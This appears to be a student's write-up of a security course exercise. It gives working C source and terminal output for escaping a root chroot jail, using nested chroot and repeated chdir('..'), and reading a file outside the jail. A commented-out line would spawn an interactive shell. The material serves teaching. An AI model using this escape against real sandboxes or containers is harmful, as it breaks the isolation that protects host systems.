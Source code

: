 * c) Write a program that, when executed inside the **/tmp/debian chroot** jail with root rights, reads the file **/tmp/outside**, which is *outside** the **chroot** jail and outputs its contents. Submit the source code of the program. **Note:** The program will first have to escape the **chroot** jail using the above sequence. 


	* Answer: Handy websites which helped me solving this exercise: [Escaping a chroot jail/1](https://filippo.io/escaping-a-chroot-jail-slash-1/), [Breaking out of chroot environment (german)](https://debianforum.de/forum/viewtopic.php?f=37&t=89606), [Prison Break (chroot)](https://warsang.ovh/prison-break-chroot/), [Printing contents of text file in c](https://stackoverflow.com/questions/3463426/in-c-how-should-i-read-a-text-file-and-print-all-strings). The corresponding c file and its compiled format can be found under chroot_reader.c and chroot_reader.

	```
	#include <sys/stat.h>
	#include <unistd.h>
	#include <stdio.h>
	#include <stdlib.h>

	int main() {
	        mkdir(".breakout", 0755);
	        chroot(".breakout");
	        // This line also works but it seems more elegant to just use a for loop
	        //chroot("../../../../../../../../../../../../../../../..");
	        int x;
	        for(x = 0; x < 1000; x++){
	                chdir("..");
	        }

	        chroot(".");
	        print_file_contents("/tmp/outside");
	        return 0;
	       // return execl("/bin/bash", "-i", NULL);
	}

	int print_file_contents(char *filename){
	        int c;
	        FILE *file;
	        file = fopen(filename, "r");
	        if (file) {
	        while ((c = getc(file)) != EOF)
	                putchar(c);
	        fclose(file);
	        }
	}
	```

	After compiling and running the program inside the chroot envionment it indeed prints out the content of the **/tmp/outside** file which lies outside the chroot environment:

	```
	root@kali:/# gcc -static -o chroot_reader chroot_reader.c 
	root@kali:/# ./chroot_reader 
	These aren't the droids you're looking for!
	```

